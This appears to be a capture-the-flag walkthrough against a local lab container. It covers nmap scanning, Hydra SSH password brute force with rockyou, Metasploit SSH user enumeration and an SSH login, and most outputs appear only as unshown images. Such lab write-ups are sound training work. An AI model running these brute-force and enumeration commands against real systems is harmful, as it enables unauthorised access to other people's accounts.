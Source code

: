 ![image](https://github.com/user-attachments/assets/4de9d2bc-19ef-4f7b-9ee4-b4b76df7090a)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22 172.17.0.2 -oN targeted
```
![Pasted image 20250116134922](https://github.com/user-attachments/assets/2ea97704-fdce-4667-803b-925657edbcf5)
![Pasted image 20250116134941](https://github.com/user-attachments/assets/fa33866c-bb33-418b-b8a7-f21e86cad74e)
![Pasted image 20250116134958](https://github.com/user-attachments/assets/c40ab4ca-630f-440d-abda-2daeda6ad1f1)

## **we only have port 22 open so we will apply brute force**
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
```
![Pasted image 20250116142021](https://github.com/user-attachments/assets/3b8b64a1-a8c8-49ba-bb09-74c75d6d1ff1)
![Pasted image 20250116145839](https://github.com/user-attachments/assets/f20cc419-8a2e-4d48-88b8-3a849579a28b)

## **we have a password but no users so we will see if we can find an exploit that will help us.**

![Pasted image 20250116143431](https://github.com/user-attachments/assets/afaa4cb7-e041-4d25-b885-10efb27d80d3)

```bash
sudo msfdb init && msfconsole
```
```msf6
use auxiliary/scanner/ssh/ssh_enumusers
show options
set RHOSTS 172.17.0.2
set USER_FILE /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
run
```
![Pasted image 20250116144754](https://github.com/user-attachments/assets/f6458185-6fa5-4e64-b8da-d0e31c18e71e)

## **now we already have some users let's try to look for possible passwords for users**
```bash
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Pasted image 20250116144856](https://github.com/user-attachments/assets/ec5e34f6-2150-41c4-918e-bb65143639c4)

```bash
ssh lovely@172.17.0.2
```













